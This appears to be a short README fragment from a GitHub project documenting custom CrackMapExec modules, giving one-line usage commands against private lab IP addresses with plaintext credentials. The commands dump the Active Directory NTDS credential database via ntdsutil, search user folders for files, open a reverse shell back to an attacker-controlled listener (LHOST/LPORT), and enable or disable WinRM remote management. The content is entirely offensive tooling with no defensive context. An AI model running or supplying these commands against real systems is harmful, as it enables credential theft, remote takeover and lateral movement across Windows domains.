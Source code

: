 ## Usage of ntdsutil

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M ntdsutil
````

## Usage of file_discovery

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M file_discovery -o SEARCH_PATH=C:\\Users
````

## Usage of revshell

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M reverse_shell -o LHOST=192.168.163.136 LPORT=1234 HTTP_SERVER=8443
````

## Usage of winrm

````console
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=ENABLE
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=DISABLE
````
